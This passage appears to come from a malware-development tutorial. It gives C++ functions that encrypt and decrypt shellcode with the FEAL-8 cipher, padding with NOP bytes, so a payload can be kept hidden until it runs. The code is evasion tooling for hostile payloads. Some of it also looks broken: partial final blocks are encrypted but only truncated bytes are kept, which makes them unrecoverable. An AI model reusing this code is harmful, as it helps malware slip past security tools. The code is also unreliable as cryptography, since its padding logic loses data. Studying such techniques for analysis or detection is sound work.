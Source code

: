 This function performs `FEAL-8` encryption on a `64-bit` data block (split into two `32-bit` halves: `left` and `right`). It performs `8-rounds` of encryption by applying the `G` function with the appropriate round key in each round.    

Decryption logic:     

```cpp
// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}
```

And shellcode encryption and decryption logic:    

```cpp
// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```